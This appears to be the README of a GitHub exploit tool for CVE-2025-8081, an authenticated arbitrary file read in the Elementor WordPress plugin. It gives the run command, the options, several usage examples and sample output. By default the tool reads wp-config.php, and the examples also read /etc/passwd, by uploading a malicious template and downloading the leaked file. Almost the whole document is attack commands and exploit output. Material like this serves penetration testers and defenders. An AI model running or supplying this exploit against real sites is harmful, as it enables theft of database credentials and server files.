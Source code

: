 
### Quick Start

```bash
python3 exploit.py -t https://target.com -u admin -p password123
```

### Command-Line Options

```
Required Arguments:
  -t, --target URL        Target WordPress URL (e.g., https://target.com)
  -u, --user USERNAME     WordPress admin username
  -p, --password PASS     WordPress admin password

Optional Arguments:
  -f, --file PATH         File to read (default: /var/www/html/wp-config.php)
  -o, --output FILE       Output filename (default: auto-generated)
  --insecure, -k          Disable SSL certificate verification
  -v, --verbose           Enable verbose output for debugging
  -h, --help              Show help message
```

### Usage Examples

```bash
# Basic exploitation (reads wp-config.php with default payload)
python3 exploit.py -t http://target.com -u admin -p password123

# Custom target file
python3 exploit.py -t http://target.com -u admin -p password123 -f /etc/passwd

# With HTTPS and self-signed certificate
python3 exploit.py -t https://target.com -u admin -p password123 --insecure

# Verbose mode with custom output
python3 exploit.py -t http://target.com -u admin -p password123 \
  -f /etc/passwd -o users.txt -v

# From OrbStack/Docker targeting host machine
python3 exploit.py -t http://host.internal:8080 -u admin -p password123 -v
```

### Expected Output

```
Kali:~$ python3 exploit.py  -t http://host.internal:8080 -u admin -p admin123 -f /etc/passwd

======================================================================
 CVE-2025-8081 - Elementor Arbitrary File Read
======================================================================
Target: http://host.internal:8080
File:   /etc/passwd
======================================================================

[INFO] Attempting WordPress authentication...
[SUCCESS] ✓ Authentication successful!
[INFO] Fetching AJAX nonce...
[INFO] Loading payload: payload.json
[INFO] Uploading malicious template...
[SUCCESS] ✓ Template uploaded successfully!
[INFO] Searching for leaked file: leaked_passwd.txt
[SUCCESS] ✓ Found file: http://host.internal:8080/wp-content/uploads/2025/10/leaked_passwd.txt
[INFO] Downloading file...
[SUCCESS] ✓ Downloaded 839 bytes

```